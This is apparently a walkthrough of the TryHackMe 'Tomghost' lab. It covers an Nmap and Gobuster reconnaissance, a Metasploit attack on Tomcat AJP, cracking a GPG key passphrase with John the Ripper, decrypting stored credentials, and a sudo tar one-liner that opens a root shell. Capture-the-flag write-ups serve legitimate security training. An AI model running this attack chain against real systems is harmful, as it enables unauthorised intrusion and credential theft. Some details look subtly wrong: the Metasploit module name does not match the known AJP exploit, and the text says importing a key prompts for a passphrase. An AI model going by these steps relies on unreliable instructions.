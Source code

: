 # TryHackMe: Tomghost Walkthrough

## Reconnaissance
The first step in this challenge is reconnaissance, which involves gathering information about the target system to identify potential vulnerabilities.

### Nmap Scan
We begin by using **Nmap**, a powerful network scanning tool, to identify open ports and services on the target machine. The command used might look like this:
```bash
nmap -sV -A <target-ip>
```
This scan reveals that ports **8009** and **8080** are open:
- **Port 8009**: Typically used by the **Apache JServ Protocol (AJP)**, often in conjunction with **Apache Tomcat**.
- **Port 8080**: Often used for web applications, commonly serving Apache Tomcat's web management interface.

### Gobuster Scan
Next, we perform a directory brute-force scan using **Gobuster** to find hidden directories on the web server hosted on port 8080:
```bash
gobuster dir -u http://<target-ip>:8080 -w /usr/share/wordlists/dirb/common.txt
```
This helps identify web application endpoints that might be vulnerable or interesting.

### Exploiting Apache Tomcat AJP
Using **Metasploit (msfconsole)**, we search for known vulnerabilities related to Apache Tomcat AJP on port 8009:
```bash
search tomcat ajp
```
We find a suitable exploit (e.g., `exploit/multi/http/tomcat_ajp_upload_bypass`), configure it with:
```bash
use exploit/multi/http/tomcat_ajp_upload_bypass
set RHOST <target-ip>
set RPORT 8009
run
```
Running this exploit gives us access to a credential file or shell, revealing a **username and password** pair. These credentials can then be used to gain shell access via **SSH**.

## Decrypting Files
After gaining access, we find two files:
- `credential.pgp` (encrypted file)
- `tryhackme.asc` (public key file)

We transfer both files to our local machine for decryption.

### Importing the Public Key
We use **GnuPG (gpg)** to handle the encryption and decryption. First, we import the `.asc` file:
```bash
gpg --import tryhackme.asc
```
The import prompts for a **passphrase**, which we do not yet have.

### Cracking the Passphrase with John the Ripper
To recover the passphrase, we use **John the Ripper**, a password cracking tool. First, we use `gpg2john` to convert the `.asc` file into a hash John can understand:
```bash
gpg2john tryhackme.asc > hash
```
Then we run John with a commonly used wordlist (e.g., rockyou.txt):
```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
To display the cracked passphrase:
```bash
john hash --show
```

### Decrypting the PGP File
Once the passphrase is retrieved, we import the `.asc` file again if needed:
```bash
gpg --import tryhackme.asc
```
Now, we decrypt the encrypted `credential.pgp` file:
```bash
gpg --decrypt credential.pgp
```
This reveals **Merlin's credentials**, which can be used to switch users:
```bash
su - merlin
```

## Privilege Escalation
As Merlin, we check for sudo privileges:
```bash
sudo -l
```
If we find permitted commands or binaries, we use **GTFOBins**, a curated list of Unix binaries that can be exploited by attackers to bypass local security restrictions, for privilege escalation. For example, if we see `tar` listed as a permitted command:
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
This spawns a root shell, allowing us to fully compromise the target system, and locate the flag.

---
